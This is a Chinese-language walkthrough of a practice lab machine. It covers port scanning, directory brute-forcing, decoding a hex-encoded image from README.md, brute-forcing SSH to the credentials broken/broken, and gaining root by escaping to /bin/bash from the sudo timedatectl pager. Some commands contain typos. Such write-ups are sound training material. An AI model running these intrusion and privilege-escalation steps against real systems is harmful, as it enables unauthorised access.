## 信息收集

```
nmap --min-rate 10000 -p- 192.168.174.149
```

只有两个端口22，80

```
nmap -sT -sC -sV -O -p22,80 192.168.174.149 -oA /nmapscan/tcp
```



```
nmap --script=vuln -p22,80 192.168.174.149 -oA /nmapscan/vuln
```



枚举出一个目录，但是是无效的

#### 22端口

先不考虑，一般放在最后

#### 80端口

查看网页



先爆破一下目录看看有没有隐藏目录

```
gobuster dir -u "http://192.168.174.149" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
```

只枚举出一个目录，还没有权限



尝试fuzz测试也没有结果

先查看网站中的所有文件

```
http://192.168.174.149/README.md
```

中有许多16进制字符



全部复制下来并转换格式

```
xdd -r -ps readme.bin > raw1.bin
```

（实际测试中我尝试了批量替换字符串即使用sed命令，用法示例sed 's/0x//g,s/,//g,s/\//g' readme.bin > raw1.bin）



发现文件头是JFIF，尝试把文件后缀改为jpg，查看图片



这张图片我在自己打靶时没有头绪，我先尝试了将所有图片下载，并且使用exiftool和binwalk命令，都没有发现什么信息，查看别人的writeup才知道

- 根据这张图片可以提取出一些关键单词，比如Bob，broken，avahamcohen.acchers等等组成词典，或者直接用rockyou.txt直接爆破ssh登录密码以及用户



得到账户和密码均为broken

```
sudo -l
```



可以利用tiemdatectl（我对这个东西不了解，忘记还可以使用GTFOBins）



```
sudo timedatectl list-timezones
```

按h可以查看帮助



得知输入！可以使用查找不匹配的列

我们可以输入

```
!/bin/bash
```



成功提权

这个靶机我忽略了可以对ssh直接进行爆破，在真实测试环境中确实可以这样做，一般在靶机确实很少见